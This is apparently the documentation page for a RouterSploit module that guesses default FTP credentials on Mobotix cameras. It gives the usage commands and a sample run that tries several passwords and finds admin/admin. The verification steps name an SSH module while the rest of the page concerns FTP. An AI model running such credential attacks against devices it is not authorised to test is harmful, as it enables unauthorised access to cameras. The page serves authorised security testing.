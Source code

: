 ## Description

Module performs dictionary attack with default credentials against Mobotix Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/mobotix/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/mobotix/ftp_default_creds
rsf (Mobotix Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Mobotix Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
